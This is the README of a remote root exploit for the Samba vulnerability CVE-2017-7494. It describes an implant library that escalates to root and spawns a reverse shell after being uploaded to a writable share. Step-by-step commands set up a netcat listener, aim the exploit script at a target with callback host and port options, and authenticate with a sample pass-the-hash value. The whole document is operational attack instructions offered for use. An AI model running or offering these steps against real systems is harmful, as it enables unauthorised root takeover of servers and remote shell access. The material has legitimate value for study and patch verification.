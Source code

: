 # CVE-2017-7494

Remote root exploit for the SAMBA CVE-2017-7494 vulnerability.

## Details

This exploit is divided in 2 parts:

 * First, it compiles a payload called "implant.c" and generates a library (libimplantx32.so or libimplantx64.so) that changes to the root user, detaches from the parent process and spawns a reverse shell.
 * Second, it finds a writeable share in the specified target host, uploads the library with a random name and tries to load it.

As long as the target is vulnerable and the payload is the correct for the target operating system and architecture, the exploit is 100% reliable.

## How to

In your machine, run the following command:

```
$ nc -p 31337 -l
```

Then, run the exploit against your target and wait until it connects back to your Netcat:

```
$ python cve_2017_7494.py -t target_ip
```

If you close too fast the reverse shell, instead of running again the exploit uploading the module, etc... you can just pass the path to the module it already uploaded. Supposing it was uploaded to /shared/directory/ as "module.so", you would run a command like the following one:

```
$ python cve_2017_7494.py -t target_ip -m /shared/directory/module.so
```


## UPDATE 11/25/2017 - Archivaldo

You can now run the exploit again samba 3.5.0 and 3.6.0, you just need add the argument -o 1
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -o 1 
```

You can now use your own custom .so
```
python cve_2017_7494.py -t target_ip -u test -P 123456 -o 1 --custom myso.so
```

In case you need to run this script from a x86 machine, compiling the implant binaries will create two x86 files. Using the flag -n 1 you can disable compilation and copy libimplantx64.so from another machine.
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

In case samba runs just on port 139. You can set the remote server port using the argument -p
```
python cve_2017_7494.py -t target_ip -p 139 -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```
In case you bump into smbpasswd hashes and can not crack them, You can now you pass-the-hash using the argument --hashes=LM:NT
```
python cve_2017_7494.py -t target_ip -u test --hashes=00000000000000000000000000000000:3DBDE697D71690A769204BEB12283678 --rhost shell_ip
```
